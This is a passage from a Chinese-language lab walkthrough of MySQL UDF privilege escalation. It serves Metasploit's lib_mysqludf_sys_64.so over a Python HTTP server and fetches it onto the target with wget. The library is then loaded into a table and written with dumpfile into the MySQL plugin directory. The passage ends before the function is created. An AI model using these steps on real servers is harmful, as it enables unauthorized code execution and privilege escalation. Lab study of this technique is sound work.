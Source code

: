 - 拷贝到桌面
- 使用python搭建http服务
- 使用shell下载到靶机

 使用的命令

```
cp /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so /home/xxb1/桌面  #复制到桌面

python3 -m http.server 8000  #开启临时http服务
```

![image-20220301193724655](https://gitee.com/xxb667/img/raw/master/img/image-20220301193724655.png)

### shell里面的操作

```
wget http://192.168.81.131:8000/lib_mysqludf_sys_64.so
```

![image-20220301193840076](https://gitee.com/xxb667/img/raw/master/img/image-20220301193840076.png)

执行sql语句

进入mysql数据库

```
use mysql;
```

### 创建数据表myfunc

```
create table myfunc(line raw);
```

插入数据

插入load_file读取的lib_mysqludf_sys_64.so‘’二进制‘’数据

```
insert into myfunc values(load_file('/var/www/html/lib_mysqludf_sys_64.so'));
```

![image-20220301194244456](https://gitee.com/xxb667/img/raw/master/img/image-20220301194244456.png)

导出文件

使用dumpfile函数把文件导出

- outfile 多行导出，dumpfile一行导出
- outfile会有特殊的转换，而dumpfile是原数据导出

```
select * from myfunc into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys_64.so';
```

![image-20220301194351030](https://gitee.com/xxb667/img/raw/master/img/image-20220301194351030.png)
